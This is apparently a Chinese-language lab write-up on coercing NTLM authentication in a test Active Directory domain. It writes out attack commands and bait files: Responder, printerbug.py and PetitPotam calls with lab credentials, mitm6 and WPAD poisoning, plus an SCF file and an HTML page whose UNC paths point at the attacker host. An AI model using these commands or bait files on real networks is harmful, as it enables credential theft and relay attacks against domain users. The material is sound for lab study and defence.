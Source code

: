 # ntlm 攻击引诱

ntlm 攻击原理可见：[域渗透：ntlm relay攻击实验及攻击流程深度解析_内网渗透测试:ntlm relay攻击分析-CSDN博客](https://blog.csdn.net/anddddoooo/article/details/143099219)

- 域控机器账户：WIN-0V0GAORDC17
- 域控 ip：192.168.72.163
- 攻击者机器 kali地址：192.168.72.162

```
监听内网
python2 ./Responder.py -I eth0 -f -v
```

### 访问 smb 协议的 ntlm 认证

##### 访问文件系统

![image-20250113205105517](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250113205105517.png)

![image-20250113205130766](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250113205130766.png)

##### 打印机漏洞

项目地址：https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
python3 printerbug.py hacker/deandean:p-0p-0p-0p-0@192.168.72.163 192.168.72.162

这样目标机器账户（192.168.72.163）向攻击者（192.168.72.162）发送 ntlm 身份验证访问 smb 服务
```

![image-20250113210054816](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250113210054816.png)

![image-20250113210107885](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250113210107885.png)

##### PetitPotam漏洞

项目地址：https://github.com/topotam/PetitPotam/blob/main/PetitPotam.py

攻击者使用 \pipe\lsarpc 去请求目标机器进行数据加密维护，目标机器会触发 EfsRpcOpenFileRaw 函数去加密维护与 FileName 参数对应的文件。EfsRpcOpenFileRaw 函数中的参数 FileName 参数可以是 unc 路径，也就是说，当提供的 FileName 为  \\IP\C$ 时，目标机器会访问 IP 这台机器的 smb 服务，并使用 NTLM 身份验证。

```
# 触发 192.168.72.163 机器访问 192.168.72.162 的 smb 服务。
python3 Petitpotam.py -d hacker.com -u deandean -p p-0p-0p-0p-0 192.168.72.162 192.168.72.163
```

![image-20250113210610030](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250113210610030.png)

![image-20250113210723995](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250113210723995.png)

##### 图标中的 unc 路径

每当访问或刷新这个文件夹所在路径时，操作系统会发送 smb 请求来获取图标资源。

![image-20250114164113038](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250114164113038.png)

![image-20250114165056582](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250114165056582.png)

![image-20250114164029341](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250114164029341.png)

##### scf 文件中的 unc 路径

```
[Shell]
Command=2
IconFile=\\192.168.72.162\test\test.ico
[Taskbar]
Command=ToggleDesktop
```

当打开 scf 文件所在的路径时，操作系统会发送 smb 请求来获取图标资源。由下图可以看到，如果目标文件夹 （ TEST ）不存在，将会一直发送 smb 请求。

![image-20250114165429841](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250114165429841.png)

##### 网页中的 unc 路径

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    欢迎，您是第1个登录本站的。再次欢迎！</br>再次欢迎！
</body>
<script src="\\192.168.72.162\test"></script>
</html>
```

![image-20250114191744322](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250114191744322.png)

### 访问 HTTP 协议的 ntlm 认证

##### wpad（Web 代理自动发现协议）

**代理自动配置**： WPAD 用于自动配置客户端设备的代理设置，特别是在企业环境中，通过代理服务器统一管理和过滤网络流量。

**简化网络配置**： 管理员只需在网络上发布一份代理配置文件，客户端设备便可根据配置自动使用正确的代理，无需逐台设备手动配置。

用来查找 PAC(Proxy Auto-Config)文件的协议，通过 DHCP、DNS、LLMNR、NBNS 等协议来查找局域网中存放 PAC 文件的主机，然后局域网中的主机通过 PAC 文件中指定的代理访问互联网，在请求 WPAD 的过程中，如果服务端要求 401 认证，部分浏览器和应用将会自动用当前用户凭证进行认证。而由于浏览器默认是自动检测设置 PAC 文件，因此造成了 WPAD 攻击。

![image-20241023192036390](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241023192036390.png)

浏览器查询 PAC 文件的顺序如下：

- DHCP 服务器

- 查询 WPAD 主机的 IP

  - 本地 hosts 文件（%windir%\System32\drivers\etc\hosts）

  - DNS 缓存/DNS 服务器

  - 链路本地多播名称解析（LLMNR）和 NetBIOS 名称服务（NBTNS）

```
PAC 文件的格式如下：
function FindProxyForURL(url, host) {
if (url== 'http://www.baidu.com/') return 'DIRECT';
if (host== 'twitter.com') return 'SOCKS 127.0.0.10:7070';
if (dnsResolve(host) == '10.0.0.100') return 'PROXY 127.0.0.1:8086;DIRECT';
return 'DIRECT';
}
```

![image-20250115214739989](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250115214739989.png)

攻击机

```
python3 mitm6.py -i eth0 -d hacker.com

当机器重启时，  器的ipv6，如下第一个ipv6是攻击机器，ipv4是域控
```

![image-20250115224424248](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250115224424248.png)

![image-20250115224542775](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250115224542775.png)

![image-20250115222631628](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250115222631628.png)

```
攻击机伪装wpad服务器，下发wpad.dat攻击

python2 Responder.py -I eth0 -wrfvF

然后目标机器访问网页
```

测试如下：

- chrome 浏览器打开就能触发 NTLM 认证。
- edge 浏览器打开后再关闭才能触发 NTLM 认证。